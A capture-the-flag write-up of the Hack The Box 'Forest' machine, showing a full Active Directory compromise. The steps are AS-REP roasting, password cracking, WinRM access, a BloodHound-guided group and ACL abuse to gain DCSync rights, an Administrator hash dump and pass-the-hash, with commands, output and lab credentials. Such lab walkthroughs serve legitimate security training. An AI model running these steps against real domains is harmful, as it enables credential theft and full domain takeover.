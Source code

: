 ```yaml
---
target_ip: 10.10.10.161
platform: HTB
difficulty: Easy
os: Windows
date_started: 2025-06-14
status: in_progress
services: ['kpasswd5', 'microsoft-ds', 'msrpc', 'netbios-ssn', 'kerberos-sec', 'domain', 'ldap', 'ncacn_http', 'http', 'tcpwrapped']
techniques_used: []
tools_used: [nmap]
---
```


# Forest

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 14/06/2025


```mermaid
flowchart TD
    A[Anonymous LDAP] -->|Enumerate Users| B[svc-alfresco Account]
    B -->|AS-REP Roasting| C[svc-alfresco Hash]
    C -->|Crack Password| D[svc-alfresco Credentials<br/>s3rvice]
    D -->|WinRM Access| E[Domain User Shell]
    
    E -->|BloodHound Analysis| F[Account Operators<br/>Group Membership]
    F -->|Create User| G[wither Account]
    F -->|Add to Group| H[Exchange Windows<br/>Permissions]
    
    H -->|WriteDACL Rights| I[Grant DCSync<br/>to wither]
    I -->|secretsdump.py| J[Administrator Hash<br/>32693b11...]
    J -->|Pass-the-Hash| K[Domain Admin<br/>SYSTEM]
    
    %% Styling
    classDef compromise fill:#ff9999,stroke:#cc0000,stroke-width:2px
    classDef privilege fill:#99ccff,stroke:#0066cc,stroke-width:2px
    classDef technique fill:#99ff99,stroke:#00cc00,stroke-width:2px
    classDef goal fill:#ffcc99,stroke:#ff6600,stroke-width:3px
    
    class D,G compromise
    class F,H privilege
    class C,I,J technique
    class K goal
```

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.10.161 -oA nmap/forest
```

| Port | Service      | Version                                         |
| ---- | ------------ | ----------------------------------------------- |
| 53   | domain       | Simple DNS Plus                                 |
| 88   | kerberos-sec | Microsoft Windows Kerberos                      |
| 135  | msrpc        | Microsoft Windows RPC                           |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP         |
| 445  | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |
| 464  | kpasswd5     | N/A                                             |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0             |
| 636  | tcpwrapped   | N/A                                             |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP         |
| 3269 | tcpwrapped   | N/A                                             |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                     |

## Enumeration

I generated and appended a static hostname mapping to `/etc/hosts` to avoid possible DNS resolution issues later on with Kerberos.
```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

LDAP enumeration identified seven active domain users.
```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 


Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

## Exploitation

Testing the user list for AS-REP roasting revealed account an account `svc-alfresco` with "Do Not Require Kerberos Pre-Authentication" enabled, and thus allowing me to retrieve their password hash.
```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

The AS-REP hash cracked with `hashcat`, revealing the password `s3rvice`.
```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

The credentials worked for WinRM access on port `5985`.
```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

I used `evil-winrm` to get a remote shell on the machine.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The user flag was in `svc-alfresco`'s Desktop.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```

## Privilege Escalation

SharpHound was already on the machine in the `svc-alfresco` user's home directory. I ran it to enumerate everything on the domain.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

I then downloaded the data to my machine to be ingested into Bloodhound.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

I imported the SharpHound data `20250614160957_loot.zip` into Bloodhound and ran a Custom Cypher Query to view the shortest path from owned principals (`svc-alfresco`) to domain Tier 0:
```
MATCH p = allShortestPaths((u:User)-[:AbuseTGTDelegation|AllowedToDelegate|HasSIDHistory|ADCSESC1|CanPSRemote|HasSession|ADCSESC10a|CanRDP|MemberOf|ADCSESC10b|CoerceAndRelayNTLMToADCS|Owns|ADCSESC13|CoerceAndRelayNTLMToLDAP|OwnsLimitedRights|ADCSESC3|CoerceAndRelayNTLMToLDAPS|ReadGMSAPassword|ADCSESC4|CoerceAndRelayNTLMToSMB|ReadLAPSPassword|ADCSESC6a|CoerceToTGT|SameForestTrust|ADCSESC6b|Contains|SpoofSIDHistory|ADCSESC9a|DCFor|SQLAdmin|ADCSESC9b|DCSync|SyncedToEntraUser|AddAllowedToAct|DumpSMSAPassword|SyncLAPSPassword|AddKeyCredentialLink|ExecuteDCOM|WriteAccountRestrictions|AddMember|ForceChangePassword|WriteDacl|AddSelf|GPLink|WriteGPLink|AdminTo|GenericAll|WriteOwner|AllExtendedRights|GenericWrite|WriteOwnerLimitedRights|AllowedToAct|GoldenCert|WriteSPN*1..]->(b:Base))
WHERE "owned" IN split(u.system_tags, " ")
  AND "admin_tier_0" IN split(b.system_tags, " ")
RETURN p
LIMIT 1000
``` 

Bloodhound revealed that `svc-alfresco` was a part of the "Account Operators" group. This group can create users and add them to most groups, including "Exchange Windows Permissions". The "Exchange Windows Permissions" group has `WriteDACL` permissions on the domain - normally needed for Exchange to work, but it creates a path to DCSync.
![[Pasted image 20250615014133.png]]
To perform the DCSync attack, I firstly created a new credential object and domain user account called "`wither`".
```powershell
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\\wither', $SecPass)
New-ADUser -Name "wither" -SamAccountName "wither" -AccountPassword $SecPass -Enabled $true
```

The "Account Operators" membership of `svc-alfresco` allowed me to add `wither` to the "Exchange Windows Permissions" group.
```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members wither
```

This provided the `WriteDACL` privileges I needed to grant it DCSync rights.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity wither -Rights DCSync -TargetIdentity "DC=htb,DC=local" -Credential $Cred -Verbose

...
Verbose: [Add-DomainObjectAcl] Granting principal CN=wither,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
...
```
>[!info] Important to note, `-Credential` using `wither`'s credential object was vital here for the attack to work, as I needed `Add-DomainObjectAcl` to run under the context of that account (as it was a member of "Exchange Windows Permissions" and thus had permission to modify ACLs) and not `svc-alfresco`.


And therefore to request the `Administrator`'s password hash from the DC using `secretsdump`.
```bash
wither@kali:~/CTF/HTB/Forest/files$ secretsdump.py 'HTB'/'wither':'password'@'FOREST' 

...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
[*] Kerberos keys grabbed
...
[*] Cleaning up...
```

A Pass-the-hash attack with this NTLM hash provided access to the `Administrator` account.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And allowed me to read the root flag in the `Administrator`'s Desktop.
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ..\Desktop\root.txt
```

## References

- [ASREPRoast \| NetExec](https://www.netexec.wiki/ldap-protocol/asreproast)
- [AS-REP Roasting \| Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [bloodhoundce-resources/custom\_queries/BloodHound\_CE\_Custom\_Queries.md at main · CompassSecurity/bloodhoundce-resources · GitHub](https://github.com/CompassSecurity/bloodhoundce-resources/blob/main/custom_queries/BloodHound_CE_Custom_Queries.md)
- [HackTricks/windows-hardening/active-directory-methodology/dcsync.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/dcsync.md)
- [AD Series \| DC Sync Attacks. DCSync Attack is a type of “credential… \| by Urshila Ravindran \| Medium](https://medium.com/@urshilaravindran/ad-series-dc-sync-attacks-e76bb54308f5)

---
#forest #htb #easy #windows #netexec #asreproast #hashcat #evil-winrm #bloodhound #sharphound #dcsync #secretsdump #pass-the-hash
